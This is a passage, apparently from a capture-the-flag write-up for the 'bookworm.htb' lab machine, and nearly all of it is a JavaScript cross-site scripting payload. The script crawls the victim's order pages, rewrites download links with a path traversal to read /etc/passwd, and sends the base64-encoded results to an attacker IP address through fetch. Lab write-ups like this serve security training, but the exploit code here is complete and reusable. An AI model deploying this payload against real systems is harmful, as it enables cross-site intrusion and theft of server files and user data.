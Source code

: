 ```javascript
function getOrder(html_page) {
    const doc = new DOMParser().parseFromString(html_page, 'text/html');
    return Array.from(doc.querySelectorAll('tbody a'), link => "http://bookworm.htb" + link.getAttribute('href'));
}

function getDownload(html) {
    const downloadLink = (new DOMParser().parseFromString(html, 'text/html')).querySelector('a[href^="/download"]');
    return downloadLink ? downloadLink.href.replace(/=(.+)$/, "=.&bookIds=../../../../../../etc/passwd") : null;
}

function arrayBufferToBase64(buffer) {
    return btoa(String.fromCharCode(...new Uint8Array(buffer)));
}

function sendRequest(url) {
    const attacker = "http://10.10.14.13>/?url=" + encodeURIComponent(url);
    fetch(url).then(async res => {
        fetch(attacker + "&data=" + arrayBufferToBase64(await res.arrayBuffer()));
    });
}

async function getPdf(url) {
    const html = await (await fetch(url)).text();
    const download = getDownload(html);
    if (download) {
        sendRequest(download);
    }
}

fetch("http://bookworm.htb/profile")
    .then(res => res.text())
    .then(html => {
        const orders = getOrder(html);
        for (const path of orders) {
            getPdf(path);
        }
    });
```

This would give us a huge base64 string, which can be decoded into a `.zip` file and unzipped to find the contents of `/etc/passwd`.
